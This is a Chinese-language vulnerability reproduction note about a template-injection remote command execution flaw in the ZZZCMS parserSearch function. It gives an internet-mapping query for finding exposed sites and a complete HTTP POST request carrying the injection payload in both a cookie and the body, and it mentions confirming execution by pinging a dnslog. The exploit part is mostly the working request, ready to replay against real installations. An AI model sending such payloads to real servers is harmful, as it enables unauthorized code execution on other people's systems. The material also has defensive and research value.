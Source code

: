 # ZZZCMS parserSearch 远程命令执行漏洞

## 漏洞描述

ZZZCMS parserSearch 存在模板注入导致远程命令执行漏洞

## 漏洞影响 

<a-checkbox checked>ZZZCMS</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="zzzcms"</a-checkbox></br>

## 漏洞复现

发送如下请求包命令执行



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zzz-1.png)



```plain
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```



执行 ping dnslog



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zzz-2.png)